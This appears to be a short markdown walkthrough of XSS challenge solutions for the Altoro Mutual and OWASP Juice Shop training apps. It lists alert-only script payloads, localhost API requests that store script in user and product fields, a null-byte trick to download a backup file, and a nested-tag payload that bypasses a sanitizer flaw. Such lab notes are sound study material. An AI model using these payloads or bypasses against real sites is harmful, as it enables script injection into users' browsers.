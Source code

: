 # XSS

## Altoro Mutual
#### Reflective XSS
* Search for `<svg/onload=alert(1)>`

## Juice Shop

### Perform a reflected XSS attack with <script>alert("XSS")</script>.
* Search
* Track Orders
### Perform a DOM XSS attack with <script>alert("XSS")</script>.	

#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a client-side security mechanism.
* Submit a POST request to http://localhost:3000/api/Users with
* Content-Type: application/json

* Post Params
  * {"email": "<script>alert(\"XSS\")</script>", "password": "anything"}
  
#### Perform a persisted XSS attack with <script>alert("XSS")</script> without using the frontend application at all.	

* Be authenticated
* Copy your Authorization header from an HTTP request submitted via browser.
* Submit a POST request to http://localhost:3000/api/Products with
* {"name": "XSS Juice", "description": "<script>alert(\"XSS\")</script>", "price": 23.99} as body,
* Content-Type: application/json
* Bearer ? as Authorization header, replacing the ? with the token you copied from the browser.

#### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a server-side security mechanism.
* Download http://localhost:3000/ftp/package.json.bak%2500.md
* change to package.json
* run dependency-check against the package.json
* sanitize:1.4.2 has a xss vuln. https://github.com/punkave/sanitize-html/issues/29
* Visit http://localhost:3000/#/contact.
* Enter <<script>XSS</script>script>alert("XSS")<</script>/script> as Comment
* Choose a rating and click Submit
* Visit http://localhost:3000/#/about for a first "XSS" alert (from the Customer Feedback slideshow)




